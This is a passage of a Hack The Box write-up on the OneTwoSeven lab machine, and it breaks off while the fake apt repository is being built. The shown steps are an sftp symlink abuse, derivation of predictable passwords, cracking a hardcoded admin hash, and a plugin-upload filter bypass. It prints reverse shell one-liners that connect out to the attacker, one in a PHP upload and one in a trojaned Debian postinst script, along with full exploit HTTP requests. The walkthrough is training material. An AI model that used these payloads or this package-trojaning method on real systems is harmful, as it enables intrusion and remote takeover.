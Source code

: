 ```yaml
---
layout: post
title: Hack The Box - OneTwoSeven
categories: hack-the-box
tags: [linux, web, rce, php, code-analysis, networking, ssh]
description: My write-up for OneTwoSeven from Hack The Box.
image: /hackthebox/onetwoseven/0.png
---
```


<hr>
## Quick Summary 
<br> Hey guys today OneTwoSeven retired and here's my write-up about it. It was a very special box and I enjoyed every part of it, especially the `apt` man in the middle attack part. Definitely one of my favorite boxes. It's a Linux box and its ip is `10.10.10.133`, I added it to `/etc/hosts` as `onetwoseven.htb`. Let's jump right in !
![](/images/hackthebox/onetwoseven/0.png)
<hr>
## Nmap
<br> As always we will start with `nmap` to scan for open ports and services :
`nmap -sV -sT -sC onetwoseven.htb`
![](/images/hackthebox/onetwoseven/1.png)
<br> Only `http` on port 80 and `ssh`.
<br>
<hr>
## Web Enumeration
<br> By going to `http://onetwoseven.htb` we see this nice website :
![](/images/hackthebox/onetwoseven/2.png)
<br> There's a sign-up button, and some other info :
![](/images/hackthebox/onetwoseven/3.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/4.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/5.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/6.png)
<br> So now we know that `sftp` is running, and we also know that if we tried to bruteforce anything we'll get banned. 
<br> If we look at the navigation bar we can see 3 pages :
![](/images/hackthebox/onetwoseven/7.png)
<br> Home is where we are, statistics just shows stuff like up-time, banned ip addresses etc.., there's a page titled Admin and it's disabled, let's look at the `html` source :
```
        <!-- Only enable link if access from trusted networks admin/20190212 -->
        <!-- Added localhost admin/20190214 -->
		  <li class="nav-item"><a id="adminlink" class="nav-link disabled" href="http://onetwoseven.htb:60080/">Admin</a></li>

```
<br> Admin's page is on port 60080 and it's only accessible from `localhost`, so we can skip that for now.
<br> I clicked on the sign-up button and got this page :
![](/images/hackthebox/onetwoseven/8.png)
<br> We have credentials for `sftp` : `ots-5MWI1ZmI : f991b5fb`
<br> and we also have a personal home page (http://onetwoseven.htb/~ots-5MWI1ZmI/) which looks like this :
![](/images/hackthebox/onetwoseven/9.png)
```
<!DOCTYPE html>
<html>
<head>
<title>Nothing here.</title>
<style>body { margin:0; padding:0; background:url("/dist/img/abstract-architecture-attractive-988873.jpg") no-repeat center center fixed; -webkit-background-size: cover; -moz-background-size: cover; -o-background-size: cover; background-size: cover; }</style>
</head>
<body></body>
</html>
```
<br>
<hr>
## SFTP, User Flag
<br> With the `sftp` credentials we have we can access the root directory of our home page :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven# sftp ots-5MWI1ZmI@onetwoseven.htb
ots-5MWI1ZmI@onetwoseven.htb's password:
Connected to ots-5MWI1ZmI@onetwoseven.htb.
sftp> ls
public_html
sftp> ls -la
drwxr-xr-x    3 0        0            4096 Aug 29 19:57 .
drwxr-xr-x    3 0        0            4096 Aug 29 19:57 ..
drwxr-xr-x    2 1010     1010         4096 Feb 15  2019 public_html
sftp> pwd
Remote working directory: /
sftp> cd public_html
sftp> ls -la
drwxr-xr-x    2 1010     1010         4096 Feb 15  2019 .
drwxr-xr-x    3 0        0            4096 Aug 29 19:57 ..
-rw-r--r--    1 1010     1010          349 Feb 15  2019 index.html
sftp> 
```
<br> You may wonder why we didn't see an open port for `sftp`, that's because `sftp` runs on top of `ssh` by default, check [this](https://www.jscape.com/blog/what-port-does-sftp-use).
<br> I created a `php` test file and uploaded it :
```
<?php
echo 'test';
?>
```

```
sftp> put test.php
Uploading test.php to /public_html/test.php
test.php                                                                                                                                                                         100%   22     0.1KB/s   00:00    
sftp>  
```
<br> Unfortunately it will respond with `403` to any uploaded `php` file :
![](/images/hackthebox/onetwoseven/10.png)
<br> I checked the commands list of `sftp` and saw that I can create symlinks with `symlink` :
```
sftp> help
Available commands:
bye                                Quit sftp
cd path                            Change remote directory to 'path'
chgrp grp path                     Change group of file 'path' to 'grp'
chmod mode path                    Change permissions of file 'path' to 'mode'
chown own path                     Change owner of file 'path' to 'own'
df [-hi] [path]                    Display statistics for current directory or
                                   filesystem containing 'path'
exit                               Quit sftp
get [-afPpRr] remote [local]       Download file
reget [-fPpRr] remote [local]      Resume download file
reput [-fPpRr] [local] remote      Resume upload file
help                               Display this help text
lcd path                           Change local directory to 'path'
lls [ls-options [path]]            Display local directory listing
lmkdir path                        Create local directory
ln [-s] oldpath newpath            Link remote file (-s for symlink)
lpwd                               Print local working directory
ls [-1afhlnrSt] [path]             Display remote directory listing
lumask umask                       Set local umask to 'umask'
mkdir path                         Create remote directory
progress                           Toggle display of progress meter
put [-afPpRr] local [remote]       Upload file
pwd                                Display remote working directory
quit                               Quit sftp
rename oldpath newpath             Rename remote file
rm path                            Delete remote file
rmdir path                         Remove remote directory
symlink oldpath newpath            Symlink remote file
version                            Show SFTP version
!command                           Execute 'command' in local shell
!                                  Escape to local shell
?                                  Synonym for help
sftp> 
```
<br> So I tried to create a symlink to `/etc/passwd` and it worked :
```
sftp> symlink /etc/passwd passwd
sftp> ls -la
drwxr-xr-x    2 1010     1010         4096 Aug 29 20:14 .
drwxr-xr-x    3 0        0            4096 Aug 29 19:57 ..
-rw-r--r--    1 1010     1010          349 Feb 15  2019 index.html
lrwxrwxrwx    1 1010     1010           11 Aug 29 20:14 passwd
sftp> 
```
![](/images/hackthebox/onetwoseven/11.png)
<br> As you can see there's a user with `localhost`'s ip, that can be helpful but we need to know his password, we already got the username : `ots-yODc2NGQ`.
<br> I wanted to know how usernames were generated so I made some assumptions and tested them.
<br> Usernames were following the same pattern which was `ots-` then a base-64 encoded string , I tried to decode the string from my username (`5MWI1ZmI`) but I got nothing readable, so I tried to encode my password (`f991b5fb`) :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven# echo f991b5fb | base64
Zjk5MWI1ZmIK
```
<br> So the string in usernames is part of the base-64 encoded password, but how these password are generated in the first place ? my password looked like `hex` but after decoding it I got nothing readable so I guessed it might be a part of an `md5` hash, but what hash ? I tried the `md5` hash of my ip :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven# python
Python 2.7.16 (default, Apr  6 2019, 01:42:57)
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from hashlib import md5
>>> print md5("10.10.xx.xx").hexdigest()
f991b5fbxxxxxxxxxxxxxxxxxxxxxxxx
>>>

```
<br> So passwords are just the first 8 chars of the ip's md5 hash, now we can generate the password for `ots-yODc2NGQ` based on the same idea :
```
>>> print md5("127.0.0.1").hexdigest()
f528764d624db129b32c21fbca0cb8d6
>>> 
```
<br> `ots-yODc2NGQ : f528764d`  , let's try it :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven# sftp ots-yODc2NGQ@onetwoseven.htb
ots-yODc2NGQ@onetwoseven.htb's password:
Connected to ots-yODc2NGQ@onetwoseven.htb.
sftp> ls -la
drwxr-xr-x    3 0        0            4096 Feb 15  2019 .
drwxr-xr-x    3 0        0            4096 Feb 15  2019 ..
drwxr-xr-x    2 999      999          4096 Feb 15  2019 public_html
-r--r-----    1 0        999            33 Feb 15  2019 user.txt
sftp> get user.txt
Fetching /user.txt to user.txt
/user.txt                                                                                                                                                                        100%   33     0.2KB/s   00:00    
sftp>
```
![](/images/hackthebox/onetwoseven/12.png)
<br> We owned user.
<br>
<hr>
## Admin panel, Arbitrary File Upload, RCE
<br> I tried `ssh` but I got this message :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven# ssh ots-yODc2NGQ@onetwoseven.htb
ots-yODc2NGQ@onetwoseven.htb's password:
This service allows sftp connections only.
Connection to onetwoseven.htb closed.
```
<br> However we can still use it to forward ports, let's forward port `60080` :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven# ssh -nNT -L 60080:127.0.0.1:60080 ots-yODc2NGQ@onetwoseven.htb
ots-yODc2NGQ@onetwoseven.htb's password:
```
![](/images/hackthebox/onetwoseven/13.png)
<br> We need credentials to login, I used the `symlink` command and created a symlink to `/var/www` :
```
sftp> symlink /var/www www
sftp> 
```
![](/images/hackthebox/onetwoseven/14.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/15.png)
<br> I downloaded `login.php.swp` : 
![](/images/hackthebox/onetwoseven/16.png)
<br> Because it's a `vim` swap file it had a lot of unreadable characters so I used strings :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven# strings login.php.swp > login.php
root@kali:~/Desktop/HTB/boxes/onetwoseven#
```
<br> `login.php` :
```
b0VIM 8.0
u\k*
root
onetwoseven
/var/www/html-admin/login.php
utf-8
3210
#"! 
	    <table>
            <h4 class = "form-signin-heading"><font size="-1" color="red"><?php echo $msg; ?></font></h4>
         <form action="/login.php" method="post">
      
      <div class = "container">
      
      </div> <!-- /container -->
         ?>
            }
              }
    				      
		   
	      if ($_POST['username'] == 'ots-admin' && hash('sha256',$_POST['password']) == '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8') {
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
            
            $msg = '';
          <?php
        <h2 class="featurette-heading">Login to the kingdom.<span class="text-muted"> Up up and away!</span></h2>
      <div class="col-md-12">
    <div class="row featurette">
    <!-- START THE FEATURETTES -->
  <div class="container marketing">
  <!-- Wrap the rest of the page in another container to center all the content. -->
  ================================================== -->
  <!-- Marketing messaging and featurettes
  </div>
    </a>
      <span class="sr-only">Next</span>
      <span class="carousel-control-next-icon" aria-hidden="true"></span>
    <a class="carousel-control-next" href="#myCarousel" role="button" data-slide="next">
    </a>
      <span class="sr-only">Previous</span>
      <span class="carousel-control-prev-icon" aria-hidden="true"></span>
    <a class="carousel-control-prev" href="#myCarousel" role="button" data-slide="prev">
    </div>
      </div>
        </div>
          </div>
            <p>Administration backend. For administrators only.</p>
            <h1>OneTwoSeven Administration</h1>
          <div class="carousel-caption text-left">
        <div class="container">
        <img src="dist/img/ai-codes-coding-97077.jpg">
      <div class="carousel-item active">
    <div class="carousel-inner">
    </ol>
      <li data-target="#myCarousel" data-slide-to="0" class="active"></li>
    <ol class="carousel-indicators">
  <div id="myCarousel" class="carousel slide" data-ride="carousel">
<main role="main">
</header>
  </nav>
    </div>
    <div class="collapse navbar-collapse" id="navbarCollapse">
    </button>
      <span class="navbar-toggler-icon"></span>
    <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarCollapse" aria-controls="navbarCollapse" aria-expanded="false" aria-label="Toggle navigation">
    <a class="navbar-brand" href="/login.php">OneTwoSeven - Administration Backend</a>
  <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
    <header>
  <body>
  </head>
    <link href="carousel.css" rel="stylesheet">
    <!-- Custom styles for this template -->
    </style>
      @media (min-width: 768px) { .bd-placeholder-img-lg { font-size: 3.5rem; } }
      .bd-placeholder-img { font-size: 1.125rem; text-anchor: middle; -webkit-user-select: none; -moz-user-select: none; -ms-user-select: none; user-select: none; }
    <style>
    <link href="/dist/css/bootstrap.min.css" rel="stylesheet" crossorigin="anonymous">
    <!-- Bootstrap core CSS -->
    <title>OneTwoSeven</title>
    <meta name="generator" content="Jekyll v3.8.5">
    <meta name="author" content="Mark Otto, Jacob Thornton, and Bootstrap contributors">
    <meta name="description" content="">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta charset="utf-8">
  <head>
<html lang="en">
<!doctype html>
<?php session_start(); if (isset ($_SESSION['username'])) { header("Location: /menu.php"); } ?>
<?php if ( $_SERVER['SERVER_PORT'] != 60080 ) { die(); } ?>
</html>
      <script>window.jQuery || document.write('<script src="/docs/4.3/assets/js/vendor/jquery-slim.min.js"><\/script>')</script><script src="dist/js/bootstrap.bundle.min.js" crossorigin="anonymous"></script></body>
<script src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script>
</main>
  </footer>
    <p>&copy; 2019 OneTwoSeven, Dec. &middot; <a href="#">Privacy</a> &middot; <a href="#">Terms</a></p>
    <p class="float-right"><a href="#">Back to top</a></p>
  <footer class="container">
  <!-- FOOTER -->
  </div><!-- /.container -->
    <!-- /END THE FEATURETTES -->
    <hr class="featurette-divider">
    </div>
	     </div>
         </form>
            </table>
              <tr><td colspan="2"><center><button type="submit" name="login">Login</button></center></td></tr>
              <tr><td><b>Password:</b></td><td><input type="password" name="password" size="40" required></td></tr>
              <tr><td><b>Username:</b></td><td><input type="text" name="username" size="40" required autofocus></td></tr>
	    <table>
            <h4 class = "form-signin-heading"><font size="-1" color="red"><?php echo $msg; ?></font></h4>
         <form action="/login.php" method="post">
      
      <div class = "container">
      
      </div> <!-- /container -->
         ?>
            }
              }
                  $msg = 'Wrong username or password.';
              } else {
		  header("Location: /menu.php");
                  $_SESSION['username'] = 'ots-admin';
```
<br> The credentials are hardcoded, however the password is hashed :
```
if ($_POST['username'] == 'ots-admin' && hash('sha256',$_POST['password']) == '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8') { 
```
<br> [Crackstation]([https://crackstation.net](https://crackstation.net/)) was able to crack it :
![](/images/hackthebox/onetwoseven/17.png)
<br> `ots-admin : Homesweethome1` :
![](/images/hackthebox/onetwoseven/18.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/19.png)
<br> There's a plugin upload form and some installed plugins above it, additionally there's a small button to download the module's `php` source from the directory `/addons`:
![](/images/hackthebox/onetwoseven/20.png)
<br> If we can upload plugins then we got `RCE`, the form submit button is disabled but we can easily change that :
![](/images/hackthebox/onetwoseven/21.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/22.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/23.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/24.png)
<br> `rev.php` :
```
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```
![](/images/hackthebox/onetwoseven/25.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/26.png)
<br> It sent the request to `addon-upload.php` and the response was 404.
```
POST /addon-upload.php HTTP/1.1
Host: 127.0.0.1:60080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:60080/menu.php?addon=addons/ots-fs.php
Content-Type: multipart/form-data; boundary=---------------------------171386507112993851681929761040
Content-Length: 326
Cookie: PHPSESSID=ijo6tb6dnflvsm803pivm8dcd2
Connection: close
Upgrade-Insecure-Requests: 1


-----------------------------171386507112993851681929761040

Content-Disposition: form-data; name="addon"; filename="rev.php"
Content-Type: application/x-php

<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>

-----------------------------171386507112993851681929761040--
```
<br>  If we check the `Addon manager` plugin we can see some interesting things :
![](/images/hackthebox/onetwoseven/27.png)
<br> First thing is the rewrite rules, any request sent to `addon-upload.php` and `addon-download.php` gets sent to `addons/ots-man-addon.php`. There's also a small note that says "Disabling a feature through htaccess leads to 404 errors for now.", This explains why we got 404 when attempting to upload a plugin, however the download feature isn't disabled and I was able to download the `Addon manager` plugin :
![](/images/hackthebox/onetwoseven/28.png)
<br> Since both requests to `addon-upload.php` and `addon-download.php` go to `ots-man-addon.php`, we have to find a way to exploit `ots-man-addon.php` and just use `addon-download.php` because it's not disabled. 
<br> `ots-man-addon.php` : 
```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS Addon Manager
switch (true) {
	# Upload addon to addons folder.
	case preg_match('/\/addon-upload.php/',$_SERVER['REQUEST_URI']):
		if(isset($_FILES['addon'])){
			$errors= array();
			$file_name = basename($_FILES['addon']['name']);
			$file_size =$_FILES['addon']['size'];
			$file_tmp =$_FILES['addon']['tmp_name'];

			if($file_size > 20000){
				$errors[]='Module too big for addon manager. Please upload manually.';
			}

			if(empty($errors)==true) {
				move_uploaded_file($file_tmp,$file_name);
				header("Location: /menu.php");
				header("Content-Type: text/plain");
				echo "File uploaded successfull.y";
			} else {
				header("Location: /menu.php");
				header("Content-Type: text/plain");
				echo "Error uploading the file: ";
				print_r($errors);
			}
		}
		break;
	# Download addon from addons folder.
	case preg_match('/\/addon-download.php/',$_SERVER['REQUEST_URI']):
		if ($_GET['addon']) {
			$addon_file = basename($_GET['addon']);
			if ( file_exists($addon_file) ) {
				header("Content-Disposition: attachment; filename=$addon_file");
				header("Content-Type: text/plain");
				readfile($addon_file);
			} else {
				header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
				die();
			}
		}
		break;
	default:
		echo "The addon manager must not be executed directly but only via<br>";
		echo "the provided RewriteRules:<br><hr>";
		echo "RewriteEngine On<br>";
		echo "RewriteRule ^addon-upload.php   addons/ots-man-addon.php [L]<br>";
		echo "RewriteRule ^addon-download.php addons/ots-man-addon.php [L]<br><hr>";
		echo "By commenting individual RewriteRules you can disable single<br>";
		echo "features (i.e. for security reasons)<br><br>";
		echo "<font size='-2'>Please note: Disabling a feature through htaccess leads to 404 errors for now.</font>";
		break;
}
?>
```
<br> This part of the code tells us what we need to do :
```
	case preg_match('/\/addon-upload.php/',$_SERVER['REQUEST_URI']):
		if(isset($_FILES['addon'])){
			$errors= array();
			$file_name = basename($_FILES['addon']['name']);
			$file_size =$_FILES['addon']['size'];
			$file_tmp =$_FILES['addon']['tmp_name'];

			if($file_size > 20000){
				$errors[]='Module too big for addon manager. Please upload manually.';
			}

			if(empty($errors)==true) {
				move_uploaded_file($file_tmp,$file_name);
				header("Location: /menu.php");
				header("Content-Type: text/plain");
				echo "File uploaded successfull.y";
```
<br> We need to have `/addon-upload.php` in the request URI, we can't request `/addon-upload.php` directly because it's disabled but we can just put a useless `GET` parameter with the value `/addon-upload.php`,  and it will pass the check.
<br> It takes the addon name from the `GET` parameter `addon` so we have to add that parameter to the request URI.
<br> So the request URI looks like this : 
```
/addon-download.php?addon=addons/rev.php&test=/addon-upload.php
``` 
<br> Request :
```
POST /addon-download.php?addon=addons/rev.php&test=/addon-upload.php HTTP/1.1
Host: 127.0.0.1:60080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:60080/menu.php?addon=addons/ots-fs.php
Content-Type: multipart/form-data; boundary=---------------------------171386507112993851681929761040
Content-Length: 326
Cookie: PHPSESSID=ijo6tb6dnflvsm803pivm8dcd2
Connection: close
Upgrade-Insecure-Requests: 1


-----------------------------171386507112993851681929761040

Content-Disposition: form-data; name="addon"; filename="rev.php"
Content-Type: application/x-php

<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>

-----------------------------171386507112993851681929761040--
```
<br> Response :
```
HTTP/1.1 302 Found
Date: Thu, 29 Aug 2019 20:56:24 GMT
Server: Apache/2.4.25 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /menu.php
Content-Length: 27
Connection: close
Content-Type: text/plain;charset=UTF-8


File uploaded successfull.y
```
<br> Now if we check `/addons`, `rev.php` is there :
![](/images/hackthebox/onetwoseven/29.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/30.png)
<hr>
## APT MITM, Root Flag
<br> As `www-admin-data`  we can run `apt-get update` and `apt-get upgrade` as root without a password :
```
www-admin-data@onetwoseven:/$ sudo -l
Matching Defaults entries for www-admin-data on onetwoseven:
    env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
    mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```
<br> Also when using `sudo` it doesn't reset these environment variables : `ftp_proxy`, `http_proxy`, `https_proxy`
<br> We can create a fake apt repository and add a malicious package that gives us code execution. Then we can run a proxy server (burp or anything else) and set the `http_proxy` variable to our server. After that we can make the proxy server use our fake repository instead of the real one by adding an entry in `/etc/hosts`. Finally when we run `apt-get update && apt-get upgrade` it will attempt to install our malicious package that will give us a root shell. This [article](https://versprite.com/blog/apt-mitm-package-injection/) was very helpful.
<br> Let's check the sources that box is using first :
```
www-admin-data@onetwoseven:/$ cat /etc/apt/sources.list
# 

# deb cdrom:[devuan_ascii_2.0.0_amd64_netinst]/ ascii main non-free

#deb cdrom:[devuan_ascii_2.0.0_amd64_netinst]/ ascii main non-free

deb http://de.deb.devuan.org/merged ascii main
# deb-src http://de.deb.devuan.org/merged ascii main

deb http://de.deb.devuan.org/merged ascii-security main
# deb-src http://de.deb.devuan.org/merged ascii-security main

deb http://de.deb.devuan.org/merged ascii-updates main
# deb-src http://de.deb.devuan.org/merged ascii-updates main
www-admin-data@onetwoseven:/$ cat /etc/apt/sources.list.d/onetwoseven.list 
# OneTwoSeven special packages - not yet in use
deb http://packages.onetwoseven.htb/devuan ascii main
www-admin-data@onetwoseven:/$ 
```
<br> In `/etc/apt/sources.list.d/onetwoseven.list` there's an entry for `packages.onetwoseven.htb`. Let's use that.
<br> I started another burp listener on port 8181 :
![](/images/hackthebox/onetwoseven/31.png)
<br> And I added `packages.onetwoseven.htb` to my `hosts` file and made it point to my ip :
![](/images/hackthebox/onetwoseven/32.png)
<br> Now any request to `packages.onetwoseven.htb` through the proxy server will be sent to my ip. Now we need to create the fake repository and the malicious package.
<br> I chose `telnet` :
```
www-admin-data@onetwoseven:/$ dpkg -l | grep telnet
ii  telnet                                 0.17-41                            amd64        basic telnet client
www-admin-data@onetwoseven:/$ apt-cache show telnet 
Package: telnet
Version: 0.17-41
Installed-Size: 157
Maintainer: Mats Erik Andersson <mats.andersson@gisladisker.se>
Architecture: amd64
Replaces: netstd
Provides: telnet-client
Depends: netbase, libc6 (>= 2.15), libstdc++6 (>= 5)
Description: basic telnet client
Description-md5: 80f238fa65c82c04a1590f2a062f47bb
Source: netkit-telnet
Tag: admin::login, interface::shell, network::client, protocol::ipv6,
 protocol::telnet, role::program, uitoolkit::ncurses, use::login
Section: net
Priority: standard
Filename: pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-41_amd64.deb
Size: 72008
MD5sum: 3409d7e40403699b890c68323e200874
SHA256: 95aa315eb5b3be12fc7a91a8d7ee8eba7af99120641067ec39694200e034a5ae
```
<br> The version on the box is `0.17-41`, I searched for it and downloaded it :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# wget ftp.br.debian.org/debian/pool/main/n/netkit-telnet/telnet_0.17-41_amd64.deb
--2019-08-29 23:10:54--  http://ftp.br.debian.org/debian/pool/main/n/netkit-telnet/telnet_0.17-41_amd64.deb
Resolving ftp.br.debian.org (ftp.br.debian.org)... 200.236.31.3, 2801:82:80ff:8000::4
Connecting to ftp.br.debian.org (ftp.br.debian.org)|200.236.31.3|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 72008 (70K) [application/x-debian-package]
Saving to: ‘telnet_0.17-41_amd64.deb’

telnet_0.17-41_amd64.deb                             100%[=====================================================================================================================>]  70.32K   113KB/s    in 0.6s    

2019-08-29 23:10:56 (113 KB/s) - ‘telnet_0.17-41_amd64.deb’ saved [72008/72008]

root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# file telnet_0.17-41_amd64.deb 
telnet_0.17-41_amd64.deb: Debian binary package (format 2.0)
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# 
```
<br> We will unpack it :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# dpkg-deb -R ./telnet_0.17-41_amd64.deb ./extract
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# ls -la ./extract/
total 16
drwxr-xr-x 4 root root 4096 Aug 29 23:12 .
drwxr-xr-x 3 root root 4096 Aug 29 23:12 ..
drwxr-xr-x 2 root root 4096 Nov  7  2016 DEBIAN
drwxr-xr-x 4 root root 4096 Nov  7  2016 usr
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# 
```
<br> And add a reverse shell payload in the post install script :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/extract/DEBIAN# nano postinst
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/extract/DEBIAN# cat postinst
#!/bin/sh
# $Id: postinst,v 1.4 2000/08/23 10:08:42 herbert Exp $

set -e

update-alternatives --install /usr/bin/telnet telnet /usr/bin/telnet.netkit 100 \
                    --slave /usr/share/man/man1/telnet.1.gz telnet.1.gz \
                                /usr/share/man/man1/telnet.netkit.1.gz

# Automatically added by dh_installmenu
if [ "$1" = "configure" ] && [ -x "`which update-menus 2>/dev/null`" ]; then
        update-menus
fi
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1338 >/tmp/f
# End automatically added section

root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/extract/DEBIAN# 
```
<br> Then we will pack it again and change the version number :
```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# dpkg-deb -b extract/ telnet_0.17-42_amd64.deb
dpkg-deb: building package 'telnet' in 'telnet_0.17-42_amd64.deb'.
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# ls -la
total 156
drwxr-xr-x 3 root root  4096 Aug 29 23:18 .
drwxr-xr-x 3 root root  4096 Aug 29 23:16 ..
drwxr-xr-x 4 root root  4096 Aug 29 23:12 extract
-rw-r--r-- 1 root root 72008 Nov 10  2016 telnet_0.17-41_amd64.deb
-rw-r--r-- 1 root root 72176 Aug 29 23:18 telnet_0.17-42_amd64.deb
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# 
```
<br> What's left is to create the repository, its name will be `devuan` as we saw in the sources list :
```
www-admin-data@onetwoseven:/$ cat /etc/apt/sources.list.d/onetwoseven.list 
# OneTwoSeven special packages - not yet in use
deb http://packages.onetwoseven.htb/devuan ascii main
```
<br> The path for the package will be :
```
pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-42_amd64.deb
```
<br> as we saw in the `apt-cache` result :
```
www-admin-data@onetwoseven:/$ apt-cache show telnet 
Package: telnet
Version: 0.17-41
Installed-Size: 157
Maintainer: Mats Erik Andersson <mats.andersson@gisladisker.se>
Architecture: amd64
Replaces: netstd
Provides: telnet-client
Depends: netbase, libc6 (>= 2.15), libstdc++6 (>= 5)
Description: basic telnet client
Description-md5: 80f238fa65c82c04a1590f2a062f47bb
Source: netkit-telnet
Tag: admin::login, interface::shell, network::client, protocol::ipv6,
 protocol::telnet, role::program, uitoolkit::ncurses, use::login
Section: net
Priority: standard
Filename: pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-41_amd64.deb
Size: 72008
MD5sum: 3409d7e40403699b890c68323e200874
SHA256: 95aa315eb5b3be12fc7a91a8d7ee8eba7af99120641067ec39694200e034a5ae
```

```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm# mkdir devuan && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan# mkdir pool && cd $_
